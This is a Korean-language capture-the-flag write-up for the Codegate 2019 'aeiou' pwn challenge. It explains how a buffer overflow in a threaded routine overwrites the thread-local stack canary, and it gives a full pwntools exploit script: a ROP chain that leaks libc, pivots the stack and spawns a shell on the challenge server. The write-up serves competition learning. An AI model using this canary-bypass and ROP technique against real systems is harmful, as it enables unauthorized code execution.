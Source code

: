 ```yaml
---
layout: post
title: ! "[Codegate 2019] aeiou Write-up"
comments: true
excerpt_separator: <!--more-->
tags:
  - MyriaBreak
  - Write-up
  - Pwn
  - Codegate2019
---
```

### Description

> nc 110.10.147.109 17777

> [aeiou](../images/myria/aeiou-writeup/onewrite)


<!--more-->
주어진 바이너리를 실행하면 아래와 같은 메뉴를 확인할 수 있다.

```bash
Raising a Baby
-------------------------------------
[1] Play with Cards
[2] Clearing the Cards
[3] Teaching numbers
[4] Sleeping the Baby
[5] Dancing with Baby!
[6] Give the child blocks!
[7] Sleep me
--------------------------------------
>>
```

 하지만 어떤 메뉴를 선택하든 프로그램은 그 메뉴를 한번 실행하고 종료되기 때문에, 단 한 번에 공격이 이루어져야 한다.
 바이너리를 분석해보면 `pthread_create함수`로 새로운 스레드를 생성하여 `start_routine` 함수를 실행하는 부분이 있다. 이 `start_rountine`(0x4013AA)함수의 C 의사코드는 아래와 같다.

![]({{ site.baseurl }}/images/myria/aeiou-writeup/aeiou_02.PNG)

 버퍼는 0x1000만큼 할당되어있지만 입력은 0x10000만큼 입력할 수 있습니다. 이는 BOF가 있음을 알려줍니다.

 ```bash
 [*] '/home/myria/CTF/CODEGATE/aeiou/aeiou'
     Arch:     amd64-64-little
     RELRO:    Full RELRO
     Stack:    Canary found
     NX:       NX enabled
     PIE:      No PIE (0x400000)
 ```
 하지만 카나리가 있기 때문에 BOF를 통해 바로 return address를 덮어씌울 방법이 없어보입니다. 하지만 스레드가 pthread_create함수에 의해 생성될 경우, 스레드의 스택에 `Thread Local Storage(TLS)`를 사용하여 변수를 저장합니다. 즉, 스레드의 스택에 `stack_guard`, 즉 카나리값이 존재하기 때문에 이를 덮어씌워 BOF를 사용할 수 있습니다.

 이제 `ROP기법`을 이용하여 라이브러리 주소를 유출(leak)하고 `원샷가젯 (execve("/bin/sh", rsp+0x30, environ))`을 실행하면 됩니다.

![]({{ site.baseurl }}/images/myria/aeiou-writeup/aeiou_03.PNG)

### Full exploit code

```python
from pwn import *

conn = remote("110.10.147.109", 17777)
#conn = process("./aeiou")


def Teaching(num, data):
	conn.recvuntil(">>")
	conn.sendline("3")
	conn.recvuntil("Let me know the number!\n")
	conn.sendline(str(num))
	conn.send(data)

pop_rdi = 0x4026f3
pop_rsi_r15 = 0x4026f1
bss_addr = 0x604110

# leak atol (libc_address)
payload  = p64(pop_rdi) # pop rdi; ret;
payload += p64(0x603FC0) # atol@GOT
payload += p64(0x400B58) # jmp puts@PLT

# read(0, 0x602030, SIZE) %% rdi=0, rsi=0x602030, rdx = big value
payload += p64(pop_rdi) # pop rdi; ret;
payload += p64(0)		 # stdin
payload += p64(pop_rsi_r15) # pop rsi; pop r15; ret;
payload += p64(bss_addr)
payload += p64(0)		# r15 <= garbage
payload += p64(0x400B88) # jmp read@PLT

# rsp -> bss
payload += p64(0x4026ed) # pop rsp; pop r13; pop r14; pop r15; ret
payload += p64(bss_addr)


Data  = "A"*(0x1010-8)
Data += p64(0xdeadbeefcafebabe) # fake canary
Data += "B"*8 	# sfp
Data += payload # rop chain
Data += "C" * (2000-len(payload)) # rop chain
Data += p64(0xdeadbeefcafebabe) # fake canary

Teaching(0x1010 + 2008 + 8, Data)


# leak
conn.recvuntil("Thank You :)\n")
libc_base = u64(conn.recv(6).ljust(8, "\x00")) - 0x36ea0
log.info("libc_base: " + hex(libc_base))

"""
0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
	[rsp+0x30] == NULL
"""

one_gadget = libc_base + 0x4526a
log.info("oneshot : " + hex(one_gadget))

payload  = p64(0) * 3 # pop r13; pop r14; pop r15; ret
payload += p64(one_gadget)
payload += '\x00' * 0x40  ## [rsp+0x30] == NULL

conn.sendline(payload)
conn.interactive()
```
